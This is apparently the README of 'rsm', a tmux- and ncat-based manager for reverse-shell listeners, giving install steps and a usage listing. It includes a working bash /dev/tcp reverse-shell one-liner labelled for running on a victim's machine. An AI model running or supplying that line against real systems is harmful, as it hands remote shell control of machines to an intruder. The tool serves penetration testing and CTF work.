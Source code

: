 # rsm

A simple reverse shell manager using `tmux` and `ncat`.

## Quick Start

Listening on a port

```shell
git clone https://github.com/djosix/rsm.git
cd rsm

./rsm 11111
# You will attach to a tmux session called 'rsm-11111',
# where 11111 is your listening port.
# You will not see rsm session when you open tmux
# because it uses its own tmux socket.
```

On victim's machine, launch a reverse shell

```shell
bash -c 'bash -i >& /dev/tcp/127.0.0.1/11111 0<&1'
# Once connected to the listening port,
# the script will create a window in our tmux session.
# Just switch to that window and interact with the client.
```

Attaching to the last rsm session

```shell
./rsm attach
```

Stop the server and cleanup

```shell
./rsm stop
# Stop all rsm listeners
```

## Install

```shell
git clone --depth 1 https://github.com/djosix/rsm.git $HOME/.rsm
# Then add $HOME/.rsm to your PATH
```

## Usage

```shell
$ rsm help
Usage:

    rsm PORT            Start a reverse shell listener on PORT
    rsm d[etached] PORT Start a detached reverse shell listener on PORT
    rsm l[ist]          List active rsm listeners
    rsm i[nfo] PORT     Show details of listener on PORT
    rsm i[nfo]          Show details of all rsm listeners
    rsm s[top] PORT     Stop a rsm listener on PORT
    rsm s[top]          Stop all rsm listeners
    rsm a[ttach] PORT   Attach to a rsm session listening on PORT
    rsm a[ttach]        Attach to the last rsm session
    rsm c[lean] PORT    Clean sockets for PORT
    rsm c[lean]         Clean all sockets
    rsm h[elp]          Show this help message
```
